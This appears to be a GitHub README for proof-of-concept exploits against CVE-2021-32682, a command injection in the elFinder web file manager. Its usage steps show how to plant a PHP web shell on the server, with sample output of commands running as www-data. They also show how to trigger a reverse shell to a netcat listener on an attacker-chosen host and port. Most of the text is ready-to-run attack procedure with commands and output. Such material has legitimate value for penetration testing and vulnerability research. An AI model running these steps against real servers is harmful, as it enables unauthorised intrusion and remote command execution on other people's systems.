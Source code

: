 # elFinder ZIP Arguments Injection Leads to Commands Injection (CVE-2021-32682)
## Some POCs for CVE-2021-32682

## Usage

Since the vulnerability is a command injection we can write a web shell to a php file. This relies on if the server executes php.

* Create file 1.txt
* Right-click 'Create archive' -> 'Zip archive'
* Rename archive to '2.zip'
* Execute exploit


      # python3 webshell.py http://<url>:8080/<elfinder url>/
      Status code  200
      [+] Webshell successfully written!!
      Usage: http://<url>:8080/<elfinder url>/files/shell.php?cmd=<whoami>

      # curl 'http://<url>:8080/<elfinder url>/files/shell.php?cmd=id'
      uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                      


We can also just execute a reverse shell with the command injection

* Create file 1.txt
* Right-click 'Create archive' -> 'Zip archive'
* Rename archive to '2.zip'
* Start netcat listener `nc -lvnp 80`
* Execute exploit


      # python3 reverse_shell.py <lhost> <lport> http://<url>:8080/<elfinder url>/

Wait for incoming reverse shell



### Credits
https://github.com/vulhub/vulhub/tree/master/elfinder/CVE-2021-32682

https://www.sonarsource.com/blog/elfinder-case-study-of-web-file-manager-vulnerabilities/

